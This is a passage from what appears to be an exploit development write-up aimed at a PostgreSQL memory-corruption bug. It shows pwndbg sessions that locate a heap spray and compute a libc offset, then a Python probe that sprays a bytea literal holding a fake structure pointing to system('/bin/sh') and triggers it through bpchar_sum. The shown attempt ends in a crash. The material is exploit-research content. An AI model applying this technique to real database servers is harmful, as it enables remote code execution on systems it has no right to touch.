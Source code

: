 then in `gdb`:

```c
pwndbg> search -8 0xaaaaaaaaaaaaaaaa --limit 2
Searching for value: b'\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa'
postgres        0x563513da8cd6 stosb byte ptr [rdi], al
[anon_7f878c54d] 0x7f87945ce04c 0xaaaaaaaaaaaaaaaa
libm.so.6       0x7f87a77471e0 0xaaaaaaaaaaaaaaaa
libm.so.6       0x7f87a7747200 0xaaaaaaaaaaaaaaaa

pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f87a74e0000     0x7f87a74e3000 rw-p     3000      0 [anon_7f87a74e0]
►   0x7f87a74e3000     0x7f87a7509000 r--p    26000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a7509000     0x7f87a765e000 r-xp   155000  26000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a765e000     0x7f87a76b1000 r--p    53000 17b000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a76b1000     0x7f87a76b5000 r--p     4000 1ce000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a76b5000     0x7f87a76b7000 rw-p     2000 1d2000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f87a76b7000     0x7f87a76c4000 rw-p     d000      0 [anon_7f87a76b7]

pwndbg> dist 0x7f87a74e3000 0x7f87945ce04c
0x7f87a74e3000->0x7f87945ce04c is -0x12f14fb4 bytes (-0x25e29f7 words)
```

We have our offset now, and we can easily calculate address where our "fake" structure will be stored. Crafting it is the next step.

In the initial attempt, we tried to call `system` with `/bin/sh`. The following code was used (extended python script used before):

```py
def probe():
    conn.commit(); cur = conn.cursor()

    fake_struct = flat(
        b'/bin/sh\x00',
        p64(rdi+0x10), # point to address below
        p64(libc_base+SYSTEM)
    )

    cur.execute(flat(
        b"SELECT '\\x",
        b'aaaaaaaa' * 0x80000,
        fake_struct.hex().encode(),
        b"'::bytea, bpchar_sum('1', '",
        payload.strip(b'\x00'), # no null bytes allowed
        b"')"
    ))
```

and program crashes here:
```
 ► 0x563514075620 <EOH_get_flat_size>                        mov    rax, qword ptr [rdi + 8]

pwndbg> p/x $rdi
$1 = 0xd2007fc626c1404c
```
